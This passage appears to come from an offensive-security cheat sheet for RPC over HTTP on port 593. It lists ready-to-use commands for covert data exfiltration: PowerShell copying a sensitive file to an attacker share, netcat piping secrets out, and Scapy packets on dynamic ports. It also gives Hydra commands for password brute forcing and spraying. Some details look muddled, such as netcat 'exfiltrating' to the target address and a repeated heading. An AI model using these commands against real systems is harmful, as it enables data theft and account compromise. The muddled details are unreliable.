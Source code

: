 ### Data Exfiltration

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-Content C:\sensitive_data.txt | Out-File -FilePath "\\<attack_ip>\share\data.txt" }
    ```
* **Description:** Exfiltrates data by sending it over an RPC over HTTP connection, which may bypass traditional data loss prevention (DLP) measures.

#### Covert Data Exfiltration via RPC

*   **Tool:** \[\[Custom Scripts]], \[\[NetCat]]

    ```bash
    echo "secret_data" | nc <target_ip> 593

    nc <target_ip> 593 < secret_data.txt
    ```
* **Description:** Use RPC communications to covertly exfiltrate data from the target network.

#### Exfiltration via Dynamic Ports

*   **Tool:** \[\[Metasploit]], \[\[Scapy]]

    ```python
    send(IP(dst="<target_ip>")/TCP(dport=49152)/Raw(load="exfil_data"))
    ```
* **Description:** Leverage dynamically assigned RPC ports to exfiltrate data, making it harder to detect.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra http-post-form "/rpcendpoint:username=^USER^&password=^PASS^:F=Login Failed" -s 593 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra http-post-form "/rpcendpoint:username=^USER^&password=^PASS^:F=Login Failed" -s 593 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.
